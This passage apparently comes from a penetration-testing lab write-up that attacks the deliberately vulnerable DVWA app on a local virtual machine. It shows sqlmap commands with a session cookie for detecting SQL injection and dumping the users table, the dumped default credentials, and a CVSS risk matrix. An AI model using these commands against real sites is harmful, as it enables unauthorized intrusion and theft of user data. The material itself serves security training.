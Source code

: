 #### Phase 4: Automated Exploitation with SQLMap
**Command Executed:**
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low" \
       --batch
```

**SQLMap Detection Results:** (`sqlmap_test_result.png`)
```
Injection Types Identified:
✅ Boolean-based blind injection
✅ Error-based injection  
✅ Time-based blind injection
✅ UNION query injection

Database Management System: MySQL
Web Server: Apache/2.2.8 (Ubuntu)
```

#### Phase 5: Complete Database Extraction
**Command for Full Dump:**
```bash
sqlmap -u "http://192.168.56.101/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=51f05876ce006ed33296ef8b0e5fa594; security=low" \
       -D dvwa -T users --dump
```

**Complete Extraction Results:** (`databasedump2.png`)
```
DVWA Users Table - Full Compromise:
┌─────────┬─────────────┬─────────────┬─────────────┬──────────┐
│ user_id │ first_name  │ last_name   │ user        │ password │
├─────────┼─────────────┼─────────────┼─────────────┼──────────┤
│ 1       │ admin       │ admin       │ admin       │ password │
│ 2       │ Gordon      │ Brown       │ gordonb     │ abc123   │
│ 3       │ Hack        │ Me          │ 1337        │ charley  │
│ 4       │ Pablo       │ Picasso     │ pablo       │ letmein  │
│ 5       │ Bob         │ Smith       │ smithy      │ password │
└─────────┴─────────────┴─────────────┴─────────────┴──────────┘
```

---

### 🔥 Critical Findings Analysis

#### Vulnerability Assessment Matrix

| Vulnerability | CVSS Score | Risk Level | Exploitability |
|---------------|------------|------------|----------------|
| **SQL Injection in `id` parameter** | 9.8 | 🔴 Critical | Trivial |
| **Weak MD5 Password Hashing** | 7.5 | 🟡 High | Easy |
| **Default Administrative Credentials** | 8.1 | 🔴 Critical | Immediate |
| **No Input Sanitization** | 9.1 | 🔴 Critical | Trivial |

